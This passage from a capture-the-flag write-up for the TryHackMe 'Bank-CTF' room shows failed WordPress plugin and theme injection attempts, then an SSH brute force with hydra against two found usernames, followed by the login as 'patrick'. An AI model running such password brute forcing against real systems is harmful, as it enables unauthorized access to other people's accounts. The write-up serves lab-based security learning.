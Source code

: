 **Inject malicious plugin:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221229000533.png)

Hmm... Looks like the directory is not writeable.

**Injecting malicious code in WP_Theme:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221229000629.png)

Hmm... Looks like we can't gain initial foothold via WordPress.

## Initial Foothold

**Since we found 2 users: `patrick` and `manager`, we can try to brute force SSH via `hydra`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# echo "patrick\nmanager" > usernames.txt
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# hydra -L usernames.txt -P clean_robots.txt ssh://$RHOSTS 
[...]
[22][ssh] host: 10.10.53.4   login: patrick   password: {Redacted}
```

**Found `patrick` SSH password!**

**Let's SSH into patrick:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# ssh patrick@$RHOSTS
patrick@10.10.53.4's password: 
[...]
patrick@ubuntu:~$ whoami;hostname;id;ip a
patrick
ubuntu
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `patrick`!
